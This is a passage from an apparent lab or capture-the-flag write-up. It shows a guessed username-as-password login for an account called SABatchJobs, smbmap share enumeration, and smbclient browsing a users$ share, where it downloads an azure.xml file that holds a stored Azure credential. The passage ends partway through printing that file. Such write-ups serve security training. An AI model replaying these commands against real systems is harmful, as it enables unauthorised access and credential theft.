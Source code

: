 * We see that a user's password is the same as their username.
* ```
  SABatchJobs:SABatchJobs
  ```
* Since we verified SMB authentication, we can now use smbmap to map out shares to see what we have access to and then use smbclient to connect to that share.&#x20;

### smbmap & smbclient

```
smbmap -H 10.129.128.21 -u 'SABatchJobs' -p 'SABatchJobs'

[+] IP: 10.129.128.21:445       Name: MEGABANK.LOCAL                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        azure_uploads                                           READ ONLY
        C$                                                      NO ACCESS       Default share
        E$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
        users$                                                  READ ONLY

```

* Let's check out users$ with smbclient

```
smbclient -U 'SABatchJobs' '//10.129.128.21/users$'
Password for [WORKGROUP\SABatchJobs]: SABatchJobs

smb: \> ls
  .                                   D        0  Fri Jan  3 08:12:48 2020
  ..                                  D        0  Fri Jan  3 08:12:48 2020
  dgalanos                            D        0  Fri Jan  3 08:12:30 2020
  mhope                               D        0  Fri Jan  3 08:41:18 2020
  roleary                             D        0  Fri Jan  3 08:10:30 2020
  smorgan                             D        0  Fri Jan  3 08:10:24 2020
  
smb: \> cd mhope
smb: \mhope\> ls
  .                                   D        0  Fri Jan  3 08:41:18 2020
  ..                                  D        0  Fri Jan  3 08:41:18 2020
  azure.xml                          AR     1212  Fri Jan  3 08:40:23 2020
  
smb: \mhope\> get azure.xml
getting file \mhope\azure.xml of size 1212 as azure.xml (3.9 KiloBytes/sec) (average 3.9 KiloBytes/sec)
smb: \mhope\> exit
```

* We see azure.xml, let's see if there is anything interesting inside

### azure.xml

```
cat azure.xml                                                                                                                              Fri 09 Sep 2022 01:17:46 AM EDT
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>